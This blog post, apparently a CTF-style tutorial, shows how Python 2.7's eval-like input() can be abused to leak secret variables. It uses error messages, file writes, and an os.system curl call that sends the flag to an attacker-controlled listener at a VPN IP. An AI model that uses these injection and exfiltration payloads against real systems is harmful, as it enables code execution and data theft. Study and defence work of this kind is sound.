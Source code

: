 ```yaml
---
title: Python - Hacking with input
description: Magic python input to compromise scripts
categories: python
author: Xh4H
tags: python proof-of-concept shell input vulnerability
---
```


This is the second part of [Python 2.7 input security issues](https://posts.xh4h.com/python/2019/08/02/input_poc.html) post.

In this post we will see what can be done appart from spawning a shell.

<br>

# Getting variable values

## Case 1 - string variable:

We are given a piece of code with hidden variable values:

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

if input("Password > ") == password:
	print "Awesome!"
else:
	print "Wrong!"
```

This simple script generates a 11 char length string, and we have to guess it.

There's `flag` variable, and we are interested on getting it's value.

A simple method is generating an error using that variable with `input`:

<div style="text-align:center"><img src="/assets/images/python2_image_1.png" /></div>

By attempting to parse to int a string that is not solely filled by numbers we will get an exception error, and since it did not get handled, we get the raw error output, containing, so, the variable content.

`1_am_s0_1nT3r3stinG`

## Case 2 - numeric variable:

In the following scenario the flag will only be numbers. We will re-use the same code from `Case 1`.

<div style="text-align:center"><img src="/assets/images/python2_image_2.png" /></div>

In this case we can't take advantage of parse to int feature, oh well, maybe we can...

<div style="text-align:center"><img src="/assets/images/python2_image_3.png" /></div>

What we did above is pretty simple. Given a string variable filled by numbers, we can concatenate a non-numeric character and afterwards parse to int the variable, getting so, our flag (removing, of course, the last character we added).

`123542562362161346`

## Case 3 - exceptions handled:

We took advantage of non-existant exception handling in the previous 2 cases.

Now we are given a script that is handling any exception. How can we get our precious flag?

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

try:
	if input("Password > ") == password:
		print "Awesome!"
	else:
		print "Wrong!"
except Exception as e:
	print "What are you doing?!"
```

If we put into practice the previous technique, we will get the `What are you doing?!` print, since any exception is being handled now.

We are going to have a look at **two** different techniques.

_Please note, `Case 3.2` can also be solved with `Case 3.1`, but the aim is having different cases to explore different possibilities._

### Case 3.1 - Re-using input function over and over ...

First let's understand how `input` function is used:

```py
input("Hey, write something here: ")
```

This piece of code will print ``Hey, write something here: `` and then ask for user input.

Since it is expecting a string, we can pass the flag as parameter.

<div style="text-align:center"><img src="/assets/images/python2_image_4.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.2 - Having access to the script location

If we have, let's say `ssh` access to the server where the script is being hosted, we can output the flag variable content to a file, and then read it.

With the following input, we will create a file called `my_flag` and write the flag to it.

```py
open("my_flag", "w").write(flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_5.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.3 - Remote connection? CURL it to me please!

Final case, let's imagine that this script is listening in port 8000. We don't have access to the server, we are establishing a connection using netcat `nc`.

We can execute a system command and curl the content of a variable through our pc.

First, set up an http listener using port 80:

```sh
python -m SimpleHTTPServer 80
```

Second, figure out our IP address. We have to take into account whether we are in a private network to access the server where that script is located.
Let's say we used an `OpenVPN` profile to be able to `netcat` to the target server. It is very likely that the target server won't have access to external IPs, therefore we will have to get our tunnel IP (tun0).

```sh
ifconfig tun0
```

<div style="text-align:center"><img src="/assets/images/python2_image_6.png" /></div>

We are going to use the following IP: ``10.10.14.7``.

We are now ready to retrieve that flag!

With the following line, we will be able to execute a bash system command, call curl appending to the url the variable we want:

```py
__import__('os').system("curl http://10.10.14.7/" + flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_7.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

<br>
<br>

Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>